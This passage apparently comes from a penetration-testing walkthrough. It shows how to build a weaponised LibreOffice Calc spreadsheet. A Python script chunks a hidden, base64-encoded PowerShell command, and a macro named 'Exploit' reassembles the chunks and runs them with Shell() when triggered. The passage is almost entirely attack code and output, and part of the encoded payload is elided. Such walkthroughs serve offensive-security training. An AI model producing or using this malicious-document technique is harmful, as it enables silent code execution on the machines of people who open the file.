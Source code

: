 We can accomplish this using a simple script, such as this.

```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```
kali@kali:~$ python3 transform.py
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
...
Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
Str = Str + "AdABhAHIAdAAoACQAcwApADsA"
```

We can now create our LibreOffice macro.

Create a new `.ods` file in LibreOffice Calc, then create a macro in that file. The macro will look like this.

```
Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub
```
